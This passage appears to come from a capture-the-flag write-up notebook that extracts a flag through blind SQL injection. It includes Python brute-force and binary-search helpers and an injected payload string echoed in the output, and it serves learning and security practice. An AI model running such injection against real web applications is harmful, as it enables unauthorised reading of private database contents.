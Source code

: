 

Now we can get a list of all printable characters and try to brute force the flag!

If we want to find the 13th character (the one after `{`), we loop through all the printable characters. First query `query_character_eq(12, 'a')`, then `query_character_eq(12, 'b')` and so on until one character returns a true response, which means we've found the character!


```python
import string
charset = list(sorted(string.ascii_letters + string.digits + string.punctuation))
"".join(charset)
```




    '!"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~'




```python
known = 'govtech-csg{'
for c in charset:
    print(c, end='')
    if query_character_eq(12, c)[0]:
        print(f'... Found {c}')
        known = known + c
        break
print(known)
```

    !"#$%&'()*+,-./0123456789:;<=>?@ABCDEF... Found F
    govtech-csg{F


Oh man, that was really slow just to find one character. Turns out there is a faster way to do it by using [binary search](https://security.stackexchange.com/a/16039). We can use a helper query which uses the `>=` operator instead and a more complex search to find the key faster.


```python
def query_character_geq(index, character):
    return query_challenge_union(
        "admin.Keys",
        f"Keys.key LIKE 'govtech-csg{{%' AND ASCII(RIGHT(LEFT(Keys.key, {index + 1}), 1)) >= ASCII('{character}')"
    )
```


```python
# Sanity check the geq helper function, first character is 'g', should return True, True, False
query_character_geq(0, 'f'), query_character_geq(0, 'g'), query_character_geq(0, 'h')
```




    ((True, 'Feed with same title already exists!', <Response [500]>),
     (True, 'Feed with same title already exists!', <Response [500]>),
     (False,
      "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 1), 1)) >= ASCII('h')) != 0 AND '1'='1; no new feeds allowed!",
      <Response [200]>))
